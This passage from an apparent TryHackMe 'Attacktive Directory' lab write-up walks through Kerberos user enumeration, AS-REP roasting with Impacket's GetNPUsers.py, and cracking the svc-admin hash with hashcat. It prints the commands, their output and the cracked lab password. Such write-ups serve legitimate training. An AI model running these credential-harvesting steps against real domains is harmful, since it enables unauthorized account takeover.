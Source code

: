 ```bash
2021/05/06 05:28:49 >  [+] VALID USERNAME:       Paradox@spookysec.local
2021/05/06 05:30:07 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2021/05/06 05:30:34 >  [+] VALID USERNAME:       ori@spookysec.local
2021/05/06 05:31:13 >  [+] VALID USERNAME:       ROBIN@spookysec.local
2021/05/06 05:32:55 >  Done! Tested 73317 usernames (16 valid) in 407.193 seconds
```

- Now we have the valid users in the network, lets check if any user has `Kerberos Pre-Auth` Disabled

```bash
# obtaining just the user names
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ cat kerbrute.out | awk '{print $7}' | cut -d '@' -f 1 | sort -u | tee valid-users.txt

# performing AS_REP Roasting
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ GetNPUsers.py spookysec.local/ -no-pass -usersfile valid-users.txt -outputfile kerberos-preauth.out
Impacket v0.9.23.dev1+20210422.174300.cb6d43a6 - Copyright 2020 SecureAuth Corporation

[-] invalid principal syntax
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[..snip..]
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)

# output saved
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ cat kerberos-preauth.out 
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:ee5dd[..snip..]84ee1
```

- Now we have the TGT of the svc-admin, since the TGT is encrypted with the users account password if we crack the TGT we will obtain the password for the svc-admin

```bash
# identifying hash mode with hashcat
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ hashcat --example-hashes | grep -a2 krb5asrep
MODE: 18200
TYPE: Kerberos 5, etype 23, AS-REP
HASH: $krb5asrep$23$user@domain.com:3e156ada591263b8aab0965f5aebd837$007497cb51b6c8116d6407a782ea0e1c5402b17db7afa6b05a6d30ed164a9933c754d720e279c6c573679bd27128fe77e5fea1f72334c1193c8ff0b370fadc6368bf2d49bbfdba4c5dccab95e8c8ebfdc75f438a0797dbfb2f8a1a5f4c423f9bfc1fea483342a11bd56a216f4d5158ccc4b224b52894fadfba3957dfe4b6b8f5f9f9fe422811a314768673e0c924340b8ccb84775ce9defaa3baa0910b676ad0036d13032b0dd94e3b13903cc738a7b6d00b0b3c210d1f972a6c7cae9bd3c959acf7565be528fc179118f28c679f6deeee1456f0781eb8154e18e49cb27b64bf74cd7112a0ebae2102ac
PASS: hashcat

# cracking the TGT
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]                                                                                            
└─$ hashcat -m 18200 kerberos-preauth.out /usr/share/wordlists/rockyou.txt
[..snip..]
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:ee5dd[..snip..]84ee1:management2005
[..snip..]
```
